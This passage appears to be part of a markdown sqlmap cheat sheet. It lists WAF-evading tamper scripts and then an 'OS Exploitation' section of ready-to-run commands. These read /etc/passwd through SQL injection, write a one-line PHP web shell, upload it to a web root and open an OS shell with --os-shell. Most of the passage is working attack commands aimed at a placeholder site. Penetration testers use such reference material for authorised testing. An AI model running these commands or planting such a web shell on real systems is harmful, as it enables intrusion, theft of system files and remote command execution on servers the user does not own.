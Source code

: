 |`space2dash`|Replaces space character ( ) with a dash comment (`--`) followed by a random string and a new line (`\n`)|
|`space2hash`|Replaces (MySQL) instances of space character ( ) with a pound character (`#`) followed by a random string and a new line (`\n`)|
|`space2mssqlblank`|Replaces (MsSQL) instances of space character ( ) with a random blank character from a valid set of alternate characters|
|`space2plus`|Replaces space character ( ) with plus (`+`)|
|`space2randomblank`|Replaces space character ( ) with a random blank character from a valid set of alternate characters|
|`symboliclogical`|Replaces AND and OR logical operators with their symbolic counterparts (`&&` and `\|`)|
|`versionedkeywords`|Encloses each non-function keyword with (MySQL) versioned comment|
|`versionedmorekeywords`|Encloses each keyword with (MySQL) versioned comment|

#### Chunked 
`--chunked`
splits post requests into chunks

## OS Exploitation 
### File Read/ Write
#### Check for DBA privilgies
```shell
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```
#### Read Local Files 
```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```
#### Write Local Files 
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```shell
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```
### Command Execution
```shell
sqlmap -u "http://www.example.com/?id=1" --os-shell
```
